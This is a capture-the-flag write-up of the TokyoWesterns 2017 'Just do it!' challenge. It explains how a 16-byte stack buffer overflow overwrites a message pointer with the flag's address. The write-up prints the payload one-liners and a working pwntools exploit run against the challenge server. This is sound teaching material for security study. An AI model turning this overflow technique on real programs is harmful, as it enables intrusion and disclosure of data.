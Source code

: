 # Just do it!
This  is an pwn challenge from the TokyoWesterns 2017 ctf.
Firstly, we take a look at the binary:
```bash
$    file just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped

$    pwn checksec just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
[*] '/Hackery/west/doit/just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

We can see that this is a 32-bit binary, with a non-executable stack.
Try to run it
```bash
$    ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
file open error.
: No such file or directory
```
We see it is complaining about a file opening error, probably try to open a file that isn't there. Let's take a look at the main function in Ghidra

```c
undefined4 main(void)

{
  char local_EAX_154;
  FILE *flagFile;
  int cmp;
  char vulnBuf [16];
  FILE *flagHandle;
  char *target;
 
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  target = failed_message;
  flagFile = fopen("flag.txt","r");
  if (flagFile == (FILE *)0x0) {
    perror("file open error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _local_EAX_154 = fgets(flag,0x30,flagFile);
  if (_local_EAX_154 == (char *)0x0) {
    perror("file read error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  _local_EAX_154 = fgets(vulnBuf,0x20,stdin);
  if (_local_EAX_154 == (char *)0x0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  cmp = strcmp(vulnBuf,PASSWORD);
  if (cmp == 0) {
    target = success_message;
  }
  puts(target);
  return 0;
}

```

We can see that the file is trying to open `flag.txt`. We can also see that this binary will essentially prompt us for a password, and if the password is right, it will print the login message. If not, it will print `Authentication error`. 
We can see what the value of password is by click into it
```asm
                             PASSWORD                                        XREF[2]:     Entry Point(*), main:080486d0(R)  
        0804a03c c8 87 04 08     addr       s_P@SSW0RD_080487c8                              = "P@SSW0RD"
```

So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an `fgets` call, a new line character will be appended to the end. So inorder to pass the check, we need a null byte to terminate `P@SSWORD`. We cac do this stuff with

```bash
$    python -c 'print "P@SSW0RD" + "\x00"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

So we pass the check, however, that doesn't solve the challenge at all. We can see that with the `fgets` call, we can input 32 bytes worth of data into input. Let's see how many bytes input can hold (I still though IDA can do that work better.)
```c
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)  
             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
                                                                                                   08048655(W)  
             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
                                                                                                   080486dd(W)  
             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)  
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)  
             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
                                                                                                   080486ee(W)  
             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
                                                                                                   08048628(R),
                                                                                                   0804864b(R)  
             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
                                                                                                   080486d9(*)  
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:080484d7(*), 0804886c,
                                                                                          080488c8(*)  
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]

```

We see that `vulnBuf` can hold 16 byte worth of data. So we have buffer overflow vulnerability here with the fgets call to `vulnBuf`. However, it appears that we can't reach the `$eip` register to get RCE.
We can reach `output_message ` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:
```c
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```
So we can see here that after it opens the flag.txt file, it scans in 48 bytes worth of data into flag. This is interesting because if we can find the address of flag, then we should be able to overwrite the value of output_message with that address and then it should print out the contents of flag, which should be the flag.

```asm
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```
Here we can see that flag lives in the bss, with the address 0x0804a080. There are 20 bytes worth of data between input and output_message (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of flag:
```bash
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}

```

So we were able to read the contents of flag.txt with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:
```py
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

and we got
```bash
$    python exploit.py
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
Welcome my secret service. Do you know the password?
Input the password.

[*] Switching to interactive mode
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 12482
```
